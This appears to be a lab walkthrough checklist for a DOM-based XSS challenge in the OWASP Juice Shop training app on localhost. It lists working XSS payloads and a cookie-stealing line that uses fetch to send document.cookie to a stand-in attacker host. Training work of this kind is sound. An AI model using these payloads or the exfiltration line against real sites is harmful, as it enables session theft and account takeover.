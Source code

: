 ✅ Task Breakdown: DOM-Based XSS via URL Parameter Injection
🔹 [x] Identify Vulnerable URL Parameters
🧠 Goal:
Find a query parameter that is reflected into the DOM without sanitization.

🛠️ Steps:
Open Juice Shop:

bash
Copy
Edit
http://localhost:3000/
Append a dummy query param to the URL:

bash
Copy
Edit
http://localhost:3000/#/search?q=test
Open Developer Tools → Elements tab, search for the term "test".

Check for sinks like:

innerHTML

document.write()

jQuery .html()

✅ Output:
The q parameter content is reflected on the page without encoding.

🔹 [x] Craft Working DOM-Based XSS Payload
🧠 Goal:
Inject a script that executes in the victim's browser when placed in the q parameter.

💣 Payload Options:
bash
Copy
Edit
http://localhost:3000/#/search?q=<script>alert(1)</script>
http://localhost:3000/#/search?q=%3Cimg%20src%3Dx%20onerror%3Dalert(1)%3E
http://localhost:3000/#/search?q="><svg/onload=alert(1)>
🔐 Techniques Used:
Encoded entities

Breaking out of HTML attributes

Abuse of event handlers (onload, onerror)

✅ Output:
Payload should get reflected into DOM and trigger a JavaScript alert popup.

🔹 [ ] Test and Verify Payload Execution
🧠 Goal:
Ensure the payload is executed in the DOM without any manual interaction.

✅ Expected Behavior:
Alert box pops up with 1 or document.cookie

Challenge banner appears: "You successfully solved the Bonus Payload challenge."

🧪 Optional Verification:
Use browser DevTools Console:

js
Copy
Edit
console.log(document.location.href);
Or track cookie access with:

js
Copy
Edit
<script>fetch('http://attacker.com/log?' + document.cookie)</script>
(Only for advanced testing in isolated environments)

🔹 [ ] Take Screenshot for Documentation
🧠 Goal:
Capture evidence of successful XSS execution and challenge completion.

📸 Steps:
Keep the alert box visible.

Open the Score Board (http://localhost:3000/#/score-board) to show completion.

Use:

bash
Copy
Edit
Shift + PrtSc (Windows)  
Cmd + Shift + 4 (Mac)
Save with naming convention:

bash
Copy
Edit
DOM-XSS-Payload-Execution.png
🔹 [ ] Push Updates to GitHub
🧠 Goal:
Version-control your exploit documentation and payloads.

📂 Suggested Folder Structure:
mathematica
Copy
Edit
OWASP-Juice-Shop-Bonus-Payload/
└── Method-2-URL-Injection/
    ├── README.md
    ├── payload.txt
    ├── screenshot.png
🛠️ Git Commands:
bash
Copy
Edit
cd ~/juice-shop/OWASP-Juice-Shop-Bonus-Payload/Method-2-URL-Injection

# Stage all changes
git add .

# Commit with clear message
git commit -m "Added DOM-based XSS via URL Injection – tested payload and screenshot"

# Push to GitHub
git push origin main
✅ Expected Output:
Your repository now includes:

Payloads

README with PoC

Screenshot

Documented steps for future reference

